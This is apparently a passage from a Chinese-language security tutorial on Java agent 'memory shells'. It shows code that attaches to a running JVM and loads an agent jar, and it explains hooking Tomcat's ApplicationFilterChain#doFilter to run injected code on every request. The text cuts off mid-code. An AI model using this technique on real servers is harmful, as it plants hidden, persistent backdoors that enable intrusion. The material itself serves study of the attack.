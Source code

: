 后面的代码其实就这样：

```java
        String path = "AgentMain.jar的路径";
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for (VirtualMachineDescriptor v:list){
            System.out.println(v.displayName());
            if (v.displayName().contains("AgentMainDemo")){
              	// 将 jvm 虚拟机的 pid 号传入 attach 来进行远程连接
                VirtualMachine vm = VirtualMachine.attach(v.id());
              	// 将我们的 agent.jar 发送给虚拟机 
                vm.loadAgent(path);
                vm.detach();
            }
        }
```

遍历找到当前运行的JVM，然后把agent.jar注入进入，调用`agentmain`。

![image-20220314151030170](Agent内存马.assets/image-20220314151030170.png)

## Agent内存马注入

其实到了现在要怎么注入内存马已经清楚了，首先会注入agent后执行`agentmain`方法，在这个方法中我们可以对`Instrumentation`进行操作，可以对已经加载的类进行修改，把恶意代码注入进去，这就是agent内存马的原理。

寻找思路是这样：

找到对应的类中的某个方法，这个类中的方法需要满足两个要求

1. 该方法一定会被执行

1. 不会影响正常的业务逻辑

这里以Filter的注入为例子。在Filter中是对`FilterChain`的调用，分析Filter内存马的时候已经知道，`ApplicationFilterChain#doFilter`一定会被调用，所以可以把恶意代码注入到这里面。

此方法还有`req`和`resp`，更方便了：

```java
    @Override
    public void doFilter(ServletRequest request, ServletResponse response)
        throws IOException, ServletException {
```



然后接下来就是长达两个小时的踩坑环境，nmlgbdwcnmlgb，一堆坑我tm真的是吐了。

首先是agent：

```java
import java.lang.instrument.Instrumentation;

public class MyTest {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        System.out.println("agentmain!");
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
```